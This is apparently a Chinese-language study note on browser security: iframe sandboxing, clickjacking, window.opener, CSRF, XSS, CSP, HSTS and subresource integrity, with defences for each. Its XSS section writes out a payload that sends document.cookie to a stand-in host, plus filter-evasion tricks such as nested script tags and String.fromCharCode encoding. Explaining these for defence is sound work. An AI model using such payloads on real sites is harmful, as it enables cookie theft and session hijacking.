

# 安全相关

### iframe

#### 同源策略

iframe 标签必须保证同源情况下，才能互相操作。

#### 如何让自己的网站不被其他网站的 iframe 引用？

利用 location API，如果发现自己被其他网站引用并嵌入，把自己内部的 location 替换掉

```
if (top.location != self.location)    self.location.replace('http://baidu.com')
```

> window.top: 指向窗口层级最顶层
>
> window.self: 指向当前 window 自己

.png>)

#### 如何防止 iframe 对外部的一些副作用

如果通过 iframe 引入了某一个网站，我们不想这个网站本身的一些操作（如：JS 加载，DOM 操作）来破坏到 iframe 外部的网站中。

**可以设置 \<iframe> 的 sandbox 属性**

* allow-same-origin：允许被视为同源，即可以操作父级 DOM 或 cookie
*   allow-scripts：允许执行脚本文件

    > 🔹 注意，如果想要实现部分效果，最好还是要加入 allow-scripts 因为引用的网址大多数情况下是需要 js 操作的
* allow-forms：允许表单提交
* allow-popups：允许浏览器打开新窗口跳转
*   allow-top-navigation：允许当前iframe 引用的网页通过 url 跳转连接或加载

    ```
    <body>    <h1>Parent</h1>    <iframe src="./iframe.html" sandbox="allow-scripts allow-popups"></iframe></body>
    ```

    ```
    <h3>iframe</h3><script>    window.open('https://baidu.com')</script>
    ```

    这样子就可以弹出窗口，不然会被拒绝。

> ⚠️ 很多情况下，最好不要同时开启 allow-same-origin 和 allow-scripts，这样效果可能还不如不开，因为他可以通过子窗口的 JS 操作，删除父窗口 \<iframe> 标签的 sandbox 属性。

./index.html

```
<body>    <h1>Parent</h1>    <iframe src="./iframe.html" sandbox="allow-same-origin allow-scripts"></iframe></body>
```

./frame.html, 可以直接删除父级的 sandbox 属性

```
<script>    top.document.getElementsByTagName('iframe')[0].removeAttribute('sandbox')</script>
```

#### 点击劫持

攻击者将恶意网站嵌入到自己的网页内，并且设置成透明，诱导点击

**防御措施**

设置 HTTP Header 中 X-FRAME-OPTIONS 属性，控制页面是否可以被嵌入到 iframe 中

### opener

#### 两种页面跳转的方式

1. HTML: `<a target='_blank' href='https://hong97.ltd'>`
   * target 属性
     * `_self`: 当前页面加载
     * `_blank`: 新窗口打开
     * `_parent`: 加载到父级窗口
     * `_top`: 加载到顶级窗口
2.  JS：`window.open('https://hong97.ltd')`

    ```
    let windowObjectReference = window.open(strUrl, strWindowName, [strWindowFeatures]);// strUrl: 要在新打开的窗口中加载的URL。// strWindowName: 新窗口的名称，类似 target 属性// strWindowFeatures: 一个可选参数，列出新窗口的特征(大小，位置，滚动条等)作为一个DOMString
    ```

**两种方式，在打开的页面中，都可以通过 `window.opener` 对象来获取源页面的 `window` 对象**

> 可以使用的情况
>
> * 不能跨域
> * 要打开新窗口 (\_blank)
> * 貌似新浏览的 Tab 功能不能支持 \<a> 标签打开的方式，会返回 null

./index.html

```
<body>    <button id="btn">Open Page1</button>    <script>        var foo = 'bar'        document.getElementById('btn').addEventListener('click', () => window.open('./page1.html'))    </script></body>
```

./page1.html

```
<h1>page1</h1><h3></h3><script>    document.getElementsByTagName('h3')[0].innerHTML = `index: window.foo: ${window.opener.foo}`</script>
```


新开的页面通过 `window.opener` 对象成功获取到了源网站的 window 对象。

也可以让源窗口重新定位（跳转到垃圾网站）。


#### \<a> 标签解决方法

设置 `rel` 属性

* noopener：会置空 window.opener
* noreferrer：禁用 HTTP Headers 的 Refer
* nofollow：让搜索引擎不要追踪此链接 / 作者不想宣传链接的文档

#### window.open()

window.open() 返回一个新网页 window 的引用，设置新网页的 window.opener 为 null

```
function openurl(url) {    const newWindow = window.open()    newWindow.opener = null    newWindow.location = url}
```

### CSRF

Cross-Site Request Forgery，伪造用户信息，发起恶意请求。造成隐私泄露和财产损失。

#### 原理

cookie 中保存了 session，恶意网站向后端发起一个 API 请求，cookie 会被自动发送，即完成了认证。

> ⚠️ 向目的地发送请求时，无论源地址是什么，cookie 都会被自动携带（不做安全配置）。另外， CSRF 攻击不破坏 SOP 机制，因为 SOP 只限制 response，不限制 request。



#### 解决方法

1.  Anti-CSRF Token

    服务器每次随机生成一个动态 token 给客户端，客户端发送时携带 token 供认证。
2. 在后端通过 HTTP 中的 Refer 属性判断来源
3. 使用 POST 比 GET 安全点
4. 使用验证码等手段
5. Cookie Samesite属性
6. 双重 Cookie，客户端生成一个随机 cookie，并在发送请求时把 cookie 作为参数（如 GET 请求参数）一起发送至后端，后端对比 cookie 和请求参数中的 cookie 是否一致。CSRF 因为 SOP 获取不到 cookie，所以放在请求参数里的 cookie 和 随机生成的 cookie 不会匹配。但也可能会因为 XSS 攻击泄露 Cookie

#### CSRF JSON

如果后端设置了只接受 JSON 的 Content-Type，那么简单的表单 POST 是不行的，虽然 fetch API 可以设置 Content-Type，但是浏览器不允许，除非在后端设置 CORS（Access-Control-Allow-Origin, Access-Control-Allow-Header）

#### Token 可以存储在 Cookie 中吗？

可以，因为服务端读取 Token 不从 Cookie 中，而因为 SOP 原则，恶意攻击实际上无法获取到 Cookie 的 Token 内容。

### XSS

Cross-Site Script，在目标网站植入恶意脚本，窃取信息（cookie/session)，XSS 可以绕过一些 SOP。

#### 原理

浏览器解析到 `<script>` 标签时会自动执行其中的代码。形成的原因大部分在于没有做好输入过滤，因此被注入一些恶意攻击。

一般可以分为`非持久型`、`持久性`、`DOM型` XSS 攻击。

#### 分类

*   反射型（非持久）型 XSS

    反射型 XSS 指用户提交的数据**没有存储在数据库中**而是直接输出到页面。**一次提交只能执行一次**。
*   存储型 XSS

    将脚本注入到后台数据库中，使得**所有用户之后的每一次访问都会执行**。
*   DOM 型 XSS

    并不会和后端交互，重点是**他的输出位置在 DOM 上**

#### 注入点

* HTML 节点的内容或属性
* JS 代码
* 富文本

#### Example

**窃取 Cookie**

在输入框注入 `<script>alert(document.cookie)</script>`，可以获取 Cookie 值

可以把 Cookie 直接发送给后台服务器，如

```
<script>document.location = `https://somehost.com?cookie=${document.cookie}`</script>
```

**监听键盘输入**

通过 JS 代码监听用户的键盘输入，并发送给后台

**利用 URL 中参数来注入 JS 脚本**

如：`https://host?key=value<script>alert(0)</script>`，随后网页读取了这个参数，就能触发 JS 执行。

**逃避过滤**

在处理用户输入时候，可能通过替换 `<script>` 标签为空白来避免，然而可以构造一种 `<scr<script>ipt>` 的字符串，来避免替换预防。

还可以通过 `eval(String.fromCharCode())` API，对注入进行编码，在解码，逃避过滤。

> `eval()` 将传入的字符串当做 JavaScript 代码执行

在 URL 注入的时候，可以用 # 来避免参数发送至后端被检测出来

#### 解决方法

* 对用户输入进行过滤
* 大多数浏览器都自带 XSS 筛选器
*   转译、字符串化。如，// -> \&quot, < -> \&lt, > -> \&gt，这样子就避免了一些 XSS

    一段恶意代码经过转移后，会变成：

    ```
    // 一段恶意代码 // 转义后输出到 html 中&lt;img src=&quot;empty.png&quot; onerror =&quot;alert(&#x27;xss&#x27;)&quot;&gt; 
    ```
* Vue / React 等框架也做了防护 （转译、字符串化）
  * React 在渲染所有输入内容之前，会进行转译。所用内容在渲染前都转换成了字符串。
  * 避免使用 dangerouslySetInnerHTML
* 设置 Cookie HTTPOnly
*   CSP 内容安全策略

    内容安全策略 ([CSP](https://developer.mozilla.org/zh-CN/docs/Glossary/CSP)) 是一个额外的安全层，用于检测并削弱某些特定类型的攻击，包括跨站脚本 ([XSS (en-US)](https://developer.mozilla.org/en-US/docs/Glossary/Cross-site\_scripting)) 和数据注入攻击等

    CSP 通过指定有效域，只有在域内的 JS 代码才会被执行。

    开启需要配置服务器，再返回的 HTTP Header 中加入 Content-Security-Policy

### HSTS

让网站通知浏览器不要使用 HTTP 加载，而是切换成 HTTPS，包含在 HTTP Header 的 Strict-Transport-Security。而不是使用 301 重定向的方式，因为重定向可能被劫持，篡改为一个恶意网址。

### CDN 劫持

CDN 内的静态资源可能会受到污染

#### SRI 子资源完整性

检查获得的资源是否被篡改。通过验证比对 hash 值来进行验证。

在 \<script> \<link> 标签上使用 `intergrity` 属性

#### intergrity

有两个部分构成，hash算法 + 生成的 hash 值

在 HTTP Header 中， Content-Security-Policy：添加`require-sri-for script` `require-sri-for style` 来要求浏览器检查。
